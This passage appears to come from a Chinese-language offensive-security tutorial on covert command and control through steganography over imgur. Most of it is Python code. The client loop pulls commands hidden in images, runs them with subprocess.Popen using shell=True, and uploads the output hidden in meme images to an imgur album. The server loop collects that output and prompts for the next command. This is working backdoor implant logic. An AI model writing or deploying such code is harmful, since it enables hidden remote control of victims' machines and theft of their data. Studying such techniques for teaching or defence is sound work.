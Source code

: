 服务器将等待直到看到消息；它通过使用`while`循环来做到这一点，并检查比启动时保存的图像日期时间晚的图像。一旦看到有新的图像，它将下载并提取消息。然后检查消息是否是客户端准备好的消息；如果是，它会显示`uuid`客户端和`os`类型，然后提示用户输入：

```py
loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict = ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```

用户输入命令后，它会使用 base32 对其进行编码，以避免破坏我们的消息字符串。然后将其隐藏在一个随机图像中，并上传到 imgur。客户端坐在一个循环中等待这条消息。这个循环的开始方式与我们的服务器相同；如果它看到一个新的图像，它会检查是否使用`uuid`寻址到这台机器，如果是，它将提取消息，将其转换为`Popen`将接受的友好格式，然后使用`Popen`运行命令。然后等待命令的输出，然后将其隐藏在一个随机图像中并上传到 imgur：

```py
loop = True
while loop:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}",  "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

服务器所需做的就是获取新图像，提取隐藏的输出，并将其显示给用户。然后它会给出一个新的提示，等待下一个命令。就是这样；这是一种非常简单的通过隐写术传递命令和控制数据的方法。

